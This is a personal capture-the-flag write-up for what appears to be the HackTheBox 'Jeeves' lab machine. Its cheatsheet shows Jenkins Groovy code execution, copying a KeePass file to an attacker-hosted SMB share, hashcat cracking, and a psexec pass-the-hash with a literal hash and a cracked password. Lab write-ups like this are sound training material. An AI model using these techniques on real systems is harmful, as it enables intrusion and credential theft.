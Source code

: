 # Jeeves \[Medium]

## Report

An HTTP site at port 5000 hosts a Jenkins user panel wehre we are able to execute groovy script in the Scripts section or by creating a new project and running a Windows script.

Getting a reverse shell as kohsuke, user has 'SeImpersonate' privelege enabled so using JuicyPotato would get us root which is the unintended path.

FInd a keepass database in the Documents folder, crack it using john and hashcat and retrieve a hash that can be passed for psexec to become admin. The root file is in an ADS so use `/R` to list it out

## Cheatsheet

```
String result = "whoami".execute().text 
println result
#Groovy revshell to execute cmd.exe

sudo python3 /opt/impacket/examples/smbserver.py hi pwd -smb2support 
net view \10.10.14.3\
#Next command didnt do much tho
powershell -c "New-PSDrive -Name 'hello' -PSProvider 'FileSystem' -Root '\10.10.14.3\hi'" [Did this do anything tho]

copy .\CEH.kdbx \10.10.14.3\hi 
PowerShell: Copy-Item C:\Users\bob\Desktop<LOOT> \<share><LOOT>

keepass2john CEH.kdbx
hashcat64.exe -m 13400 hash.txt rockyou.txt -d 1
kpcli -kdb CEH.kdbx ls --group CEH --entries 
show -f [entry_number]
sudo python3 psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 administrator@10.10.10.63 cmd.exe 
dir /R 
more < hm.txt:root.txt
```

## Loot

### Creds

CEH:moonshine1 \[keepass master password]

### Enumeration

**SMB** \
Nonauth session denied

**80** \
error.html is just ss but some good info \
MSSQL 2005; .NET version 2.05 \
This thing doesn't even forward our data it just redirects to error.html fuzzed this also didnt get much, file extensions maybe?

**50000 \[HTTP]**\
Powered by Jetty:// 9.4.z-SNAPSHOT \
CVE 2021-28164 : Information disclouse by URL encoding . -> %2e \
We cant find any files by fuzzing tho, a specific wordlist also didnt help \
HOW TF COULD YOU NOT LET FFUF FINISH YOU TOOL \
/askjeeves (302) \
http://10.10.10.63:50000/askjeeves \
Jenkins 2.87 running

/script allows us to execute groovy scripts

groovy revshell execute cmd.exe, powershell seems to not work

IEX nishang tcp shell otherwise (more professional i feel)

#### Kohsuke

User kohsuke SeImpersonate autologon creds for user ben unattend - creds for user ben C:\Windows\Panther\Unattend.xml

Find keepas db in Documents
